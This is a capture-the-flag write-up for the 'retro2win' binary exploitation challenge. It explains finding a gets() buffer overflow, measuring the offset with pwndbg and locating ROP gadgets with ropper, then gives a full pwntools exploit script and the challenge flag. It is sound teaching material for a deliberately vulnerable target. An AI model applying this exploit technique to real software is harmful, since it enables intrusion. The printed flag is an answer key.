 # Description
So retro.. So winning..

`nc retro2win.ctf.intigriti.io 1338`

# Flag
INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}

# Analysis
From the challenge name you can guess this is probably a ret2win challenge. First things first, check the type of file it is so we know is it 32 or 64 bit. 

![image](https://github.com/user-attachments/assets/9d930155-f3c7-4d6c-9cb7-f3ed45557945)

This binary is a 64 bit. Now we inspect the code, from the code we can see there is a secret feature that isn't displayed when the program is run normally. A player can type in "1337" to enter the cheat code panel where they can submit a cheat code in hopes of accessing the cheat mode. So this must be our goal how can we reach the cheat mode. Inspecting the enter_cheatcode function we can see that it uses gets meaning it is vulnerable to a buffer overflow.

![image](https://github.com/user-attachments/assets/ab2c2634-3d85-4a96-becf-1ea650372359)

To know what you need to search for you need to be aware of the payload format for 64 bit elf files as they are different from the 32 bit files. You can watch this video by CryptoCat to understand more https://youtu.be/vO1Uj2v3r7I?si=OuOVRpZTLXcwDxHs but basically the payload should have this structure:
```
payload = padding + pop_rdi_address + parameter1 + pop_rsi_r15_address + parameter2 + junk(8 bytes of padding) + win_address
```

Now we need to figure out what's the padding so we can begin to prepare our payload. To find the padding we can use gdb, in my case I'm using pwndbg but feel free to use whatever you prefer. First things first, create a cyclic pattern if you don't know how you can do it with the `cyclic 100` or any value command. Next we inject this at the gets. 

![image](https://github.com/user-attachments/assets/0253ec97-ba76-4221-9d61-7c8d11313b5e)

In pwndbg it's alot easier to see the registers which is why I use it as you can see the rsp register has been overflowed.

![image](https://github.com/user-attachments/assets/bbf1ba86-83d9-41ec-bf86-6ce2a82466be)

Now to figure out the padding you can take the first 8 bytes of the overflowed string and use the command `cyclic -l <string>`

![image](https://github.com/user-attachments/assets/9e3d0e85-30de-49ac-a2f3-8285c794174a)

Nice, now we know our padding is 24 bytes, which looks like this in our payload `A * 24` .  Next we need to find our pop rsi and pop rdi addresses, we can use the ropper tool for this. Simply, use the command `ropper --file retro2win --search "pop rsi" and ropper --file retro2win --search "pop rdi"` take the address starting from the 4 the 0's are irrelevant if you are using pwntools for your exploit. 

![image](https://github.com/user-attachments/assets/6fd3502a-c9c3-470f-8c2e-bcdffcbec2e9)

Lastly, we need to find the address of the cheat_mode function. You can do so using gdb or once again the debugger of your choice. Using gdb just use the command `disass <function_name>` . In this case our win address is `0x400736`

![image](https://github.com/user-attachments/assets/1dbb2e96-2a1f-4419-b503-580791ad4b98)

Now that we have all of the information we need we can build our payload.

# Solution
The payload that I used is as below:
```
from pwn import *

# Connect to the remote service
p = remote('retro2win.ctf.intigriti.io', 1338)

# Address of the cheat_mode function (replace with actual address from disassembly)
cheat_mode_address = 0x00400736

# Calculate padding:
# - 16 bytes for the buffer `v1`
# - 8 bytes for the saved return address
# - Additional padding to align the arguments

# The v1 buffer will be filled with 'A's, then we overwrite the return address with cheat_mode address
padding = b"A" * 24  

poprdi = p64(0x4009b3)

poprsi = p64(0x4009b1)

junk = b"B" * 8

# Overwrite return address with the cheat_mode address
address = p64(cheat_mode_address)

# Pass a1 and a2 as arguments to cheat_mode
a1 = p64(0x2323232323232323)
a2 = p64(0x4242424242424242)

payload = padding + poprdi + a1 + poprsi + a2 + junk + address

# Send the exploit
p.recvuntil("Select an option:")
p.sendline("1337")  # Send "1337" to trigger the cheat mode
p.recvuntil("Enter your cheatcode:")  # Wait for prompt
p.sendline(payload)  # Send the crafted payload

# Read and print the output from the server
print(p.recvall())  # Print all the output from the server

# Interact with the process to see any further output (if needed)
p.interactive()

```

Running this gives you the flag :D

![image](https://github.com/user-attachments/assets/f756c6a0-fc47-4fef-8ed7-f1f2ee272f0c)


#L337upCTF2024 #ret2win
